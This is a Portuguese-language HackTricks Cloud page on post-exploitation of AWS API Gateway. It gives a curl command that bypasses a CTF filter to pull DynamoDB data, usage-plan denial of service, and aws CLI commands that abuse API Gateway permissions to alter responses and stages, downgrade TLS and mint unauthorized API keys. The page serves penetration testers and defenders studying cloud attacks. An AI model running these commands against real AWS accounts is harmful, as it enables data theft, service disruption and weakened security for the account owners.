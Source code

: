 # AWS - API Gateway Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## API Gateway

Para mais informações, confira:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Acessar APIs não expostas

Você pode criar um endpoint em [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) com o serviço `com.amazonaws.us-east-1.execute-api`, expor o endpoint em uma rede onde você tenha acesso (potencialmente via uma máquina EC2) e atribuir um grupo de segurança permitindo todas as conexões.\
Então, a partir da máquina EC2, você poderá acessar o endpoint e, portanto, chamar a API do gateway que não estava exposta anteriormente.

### Bypass Request body passthrough

Esta técnica foi encontrada em [**este writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Como indicado na [**documentação da AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) na seção `PassthroughBehavior`, por padrão, o valor **`WHEN_NO_MATCH`**, ao verificar o cabeçalho **Content-Type** da solicitação, passará a solicitação para o back end sem transformação.

Portanto, no CTF, o API Gateway tinha um template de integração que estava **impedindo que a flag fosse exfiltrada** em uma resposta quando uma solicitação era enviada com `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

No entanto, enviar uma solicitação com **`Content-type: text/json`** impediria esse filtro.

Finalmente, como o API Gateway estava permitindo apenas `Get` e `Options`, era possível enviar uma consulta arbitrária do dynamoDB sem nenhum limite, enviando uma solicitação POST com a consulta no corpo e usando o cabeçalho `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Planos de Uso DoS

Na seção **Enumeração**, você pode ver como **obter o plano de uso** das chaves. Se você tiver a chave e ela estiver **limitada** a X usos **por mês**, você pode **apenas usá-la e causar um DoS**.

A **Chave da API** só precisa ser **incluída** dentro de um **cabeçalho HTTP** chamado **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` pode **modificar uma Resposta de Gateway existente para incluir cabeçalhos personalizados ou modelos de resposta que vazam informações sensíveis ou executem scripts maliciosos**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateStage` e `apigateway:CreateDeployment` pode **modificar um estágio existente do API Gateway para redirecionar o tráfego para um estágio diferente ou alterar as configurações de cache para obter acesso não autorizado a dados em cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto Potencial**: Acesso não autorizado a dados em cache, interrompendo ou interceptando o tráfego da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` pode **modificar a resposta do método de um método REST API existente do API Gateway para incluir cabeçalhos personalizados ou templates de resposta que vazam informações sensíveis ou executem scripts maliciosos**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Vazamento de informações sensíveis, execução de scripts maliciosos ou acesso não autorizado a recursos da API.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Um atacante com as permissões `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` pode **modificar as configurações da API Gateway REST API para desativar o registro ou alterar a versão mínima do TLS, potencialmente enfraquecendo a segurança da API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impacto Potencial**: Enfraquecendo a segurança da API, permitindo potencialmente acesso não autorizado ou expondo informações sensíveis.

{% hint style="info" %}
Necessita de teste
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Um atacante com permissões `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` pode **criar novas chaves de API, associá-las a planos de uso e, em seguida, usar essas chaves para acesso não autorizado às APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impacto Potencial**: Acesso não autorizado a recursos da API, contornando controles de segurança.

{% hint style="info" %}
Necessita de teste
{% endhint %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

